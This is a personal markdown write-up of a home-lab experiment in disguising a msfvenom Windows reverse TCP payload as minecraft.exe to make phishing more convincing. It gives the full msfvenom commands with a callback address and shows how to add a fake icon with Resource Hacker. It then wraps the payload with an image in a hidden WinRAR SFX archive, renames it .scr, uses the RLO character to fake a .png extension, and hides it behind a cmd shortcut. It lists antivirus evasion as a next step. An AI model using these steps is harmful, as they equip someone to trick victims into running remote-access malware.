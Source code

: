 # Reverse shell tcp exploit masked as minecraft.exe 

I've been getting some shitty phishing emails so I thought how I could make it more believable:

<img src="phishing.png" alt="img" />

This is kinda bad.

I saw the other day a video about something like "turn any executable into png" and i thought, what if I made a windows reverse tcp binary using msfvenom and named it as minecraft.exe? 

In this writeup we will do:
- Minecraft.exe reverse shell
- Minecraft.exe/png bundled with another file reverse shell
- Hidden CMD shortcut when opening the Minecraft.png file
- Maybe make a pdf reverse shell

Let's do it

## part 1

First I'm using bridged adapter kali linux VM with windows as my host machine. I am on the same 192.168.100.x network

We have a few payload options, we can use meterpreter or just normal shell:

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.150.6 LPORT=4444 -f exe -o minecraft.exe`

`msfvenom -p windows/shell/reverse_tcp LHOST=192.168.150.6 LPORT=4444 -f exe -o minecraft.exe`


<img src="1.png" alt="img" />

I moved the file into my windows desktop. We can test that it works first by running the exe. If we geta shell we can change directory
`cd /d C:\` 

Just have to disable my antivirus since the binary itself is fingerprinted with metasploit

We will customize this executable to make it look legitimate following this tutorial by "ebola man"

Video: https://www.youtube.com/watch?v=cXEkSQl9wmw


<img src="2.png" alt="img" />

First we need resource hacker: https://www.angusj.com/resourcehacker/#download

Then we get minecraft icon png and put it on our exe.

<img src="3.png" alt="img" />

Now we have a legitemately looking minecraft hack except windows defender instantly knows thats its a virus and when running it, it doesn't do anything which is sus

So let's forget the payload legitimacy first, what if we want to turn this into a legit looking PNG and just send it to a friend?

## part 2
According to the tutorial, we can bind a picture with the exe using Winrar. 

<img src="4.png" alt="img" />

Select the picture and exe and add to archive

<img src="5.png" alt="img" />

- Check "create SFX archive"

<img src="6.png" alt="img" />

- Go to advanced SFX and put these

<img src="7.png" alt="img" />

- Then modes unpack to temp folder and hide all

<img src="8.png" alt="img" />

- Then text and icon, select your icon (must be ICO format)

- In update tab => overwrite all files

<img src="9.png" alt="img" />

Now we get the same `minecraft.exe` but now it opens up an image we bundled it with when run

Change the extension from .exe to .scr

`minecraft.scr`

It runs the same 

Now we insert a special character by right clicking while editing file name, right before ouur file extension at `file|gnp.scr`

<img src="10.png" alt="img" />

=> insert special character => RLO

<img src="11.png" alt="img" />

Now it looks like this with and runs normally

## part 3
Another method is to create a folder with a shortcut of the file. I'm imagining this as a folder of pictures

Take the exe file from part 2 and change it to `minecraft.png`

It will run in CMD when you type `minecraft.png`

Create folder, create shortcut

Make original image file hidden in properties

In the shortcut properties, add `cmd.exe /c` in the target, and change the icon to something believable

Next up I need to think:
- How to bypass windows defender
- Set up remote server listener
- Better masking and stealthing after exploitation
- Post-exploitation objectives



Source: 

ebola man
https://www.youtube.com/watch?v=cXEkSQl9wmw

https://www.youtube.com/watch?v=78QSSB2NnwQ